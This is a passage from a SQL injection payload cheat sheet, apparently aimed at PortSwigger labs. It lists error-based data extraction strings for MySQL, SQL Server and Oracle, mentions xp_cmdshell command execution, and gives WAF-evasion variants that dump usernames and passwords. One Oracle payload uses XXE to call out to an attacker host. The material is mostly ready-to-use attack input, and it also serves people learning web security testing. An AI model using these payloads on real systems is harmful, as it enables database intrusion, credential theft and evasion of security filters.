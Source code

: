 **What it does**: Executes the 'whoami' command on the server (if xp_cmdshell is enabled).

### 10. Error-Based Data Extraction

**MySQL:**
```
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) --
' AND updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) --
```

**SQL Server:**
```
' AND 1=CONVERT(int, (SELECT @@version)) --
```

**Oracle:**
```
' AND EXTRACT(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://attacker.com/"> %remote;]>')) --
```

**What they do**: Force the database to display error messages containing extracted data.

## WAF Bypass Techniques

### 11. Evading Simple Filters

**Avoiding Spaces:**
```
'OR/**/'1'='1'--
'UNION/**/SELECT/**/username,password/**/FROM/**/users--
```

**Alternate Encodings:**
```
' OR 1=1 -- (URL encoded: %27%20OR%201%3D1%20--%20)
' OR 1=1 -- (Hex encoded: 0x27204f52203d3d202d2d20)
```

**Case Manipulation:**
```
' UnIoN sElEcT username,password FrOm users --
```

**Comment Variations:**
```
' UNION SELECT username,password FROM users -- -
' UNION SELECT username,password FROM users /*
' UNION SELECT username,password FROM users #
```

**What they do**: Help bypass Web Application Firewalls (WAFs) that filter based on specific patterns.

## PortSwigger Lab-Specific Payloads

### 12. SQL Injection UNION Attack Labs
